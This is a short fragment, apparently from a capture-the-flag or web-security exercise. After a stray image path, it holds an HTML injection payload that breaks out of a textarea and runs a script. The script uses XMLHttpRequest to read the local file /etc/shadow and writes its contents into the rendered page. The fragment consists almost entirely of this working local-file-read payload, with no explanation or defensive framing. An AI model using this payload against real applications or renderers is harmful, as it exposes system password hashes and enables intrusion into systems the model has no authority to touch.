 </textarea>
<script>
flag = new XMLHttpRequest;
flag.onload=function(){document.write(this.responseText)};
flag.open('GET', 'file:///etc/shadow');
flag.send();
</script>
<textarea>
